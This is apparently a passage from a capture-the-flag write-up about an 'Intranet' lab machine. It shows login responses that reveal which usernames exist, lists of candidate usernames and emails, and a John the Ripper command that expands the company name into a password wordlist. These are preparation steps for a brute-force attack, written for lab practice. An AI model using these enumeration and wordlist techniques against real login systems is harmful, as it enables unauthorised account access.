 <br>
<h2 align="center">Login</h2>
<p>

- 200 OK, Invalid password for username= <code>anders</code>%40securesolacoders.no&password=password<br>
- 200 OK, Invalid password for username= <code>devops</code>%40securesolacoders.no&password=password<br>
- 200 OK, Invalid username for username= <code>magnus</code>%40securesolacoders.no&password=password<br>
- 200 OK, Invalid password for username= <code>admin</code>%40securesolacoders.no&password=password</p>

<h2 align="center">W.txt</h2>

```bash
anders
devops
admin
securesolacoders
password
developer
senior
```

<h2 align="center">users.txt</h2>

```bash
devops@securesolacoders.no
admin@securesolacodres.no
anders@securesolacoders.no
```

<h2 align="center">A.txt</h2>

```bash
securesolacoders
```

<h2 align="center">B.txt</h2>

```bash
:~/Intranet# john --wordlist:A.txt -rules:jumbo -stdout > B.txt
Using default input encoding: UTF-8
Press 'q' or Ctrl-C to abort, almost any other key for status
70539p 0:00:00:00 100.00% (2025-10-01 13:54) 641263p/s sesola
```

```bash
:~/Intranet# head -n 14 B.txt
securesolacoders
Securesolacoders
secure
secures
secur
securesolacoderssecuresolacoders
Sredocaloseruces
Securesolacoderssecuresolacoders
SECURESOLACODERS
sredocaloseruces
securesolacoderses
Securesolacoderses
SecuresolacodersSecuresolacoders
secu
```

